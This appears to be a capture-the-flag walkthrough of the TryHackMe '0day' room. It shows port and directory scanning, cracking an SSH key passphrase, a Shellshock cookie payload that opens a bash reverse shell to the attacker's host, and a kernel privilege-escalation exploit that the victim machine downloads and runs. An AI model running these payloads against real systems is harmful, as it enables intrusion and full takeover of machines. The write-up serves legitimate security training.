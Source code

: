 # 0day

**Room Link:** [https://tryhackme.com/room/0day](https://tryhackme.com/room/0day)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (434).png" alt=""><figcaption></figcaption></figure>





This appeared to be a rabbit hole but I found a key and was able to bruteforce the password for it.

<figure><img src="../../.gitbook/assets/image (427).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600 id_rsa
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (428).png" alt=""><figcaption></figcaption></figure>

I found a cgi file. i tried checking if it was vulnerable to shellshock which wasn't working but it was vulnerable.&#x20;

**Kali**

```
gobuster dir -u http://$VICTIM/cgi-bin/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,cgi
```

<figure><img src="../../.gitbook/assets/image (435).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

**Link:** [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)

**Kali#1**

```
nc -lvnp 4242
```

**Kali #2**

```
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/$KALI/4242 0>&1' http://$VICTIM/cgi-bin/test.cgi 
```

<figure><img src="../../.gitbook/assets/image (429).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



## Privilege Escalation

**Victim**

```
uname -a 
```

<figure><img src="../../.gitbook/assets/image (431).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
searchsploit 3.13.0
searchsploit -m linux/local/37292.c
gcc 37292.c -o exploit
python2 -m SimpleHTTPServer 81
```

<figure><img src="../../.gitbook/assets/image (430).png" alt=""><figcaption></figcaption></figure>

The exploit didn't work as it's complaining that it can't create dynamic library

**Victim**

```
cd /tmp/
wget http://10.10.91.55:81/exploit
chmod +x exploit
./exploit
```

<figure><img src="../../.gitbook/assets/image (432).png" alt=""><figcaption></figcaption></figure>

To fix this we just had to export the binpath from the machine

**Victim**

```
export PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin
./exploit
```

<figure><img src="../../.gitbook/assets/image (433).png" alt=""><figcaption></figcaption></figure>



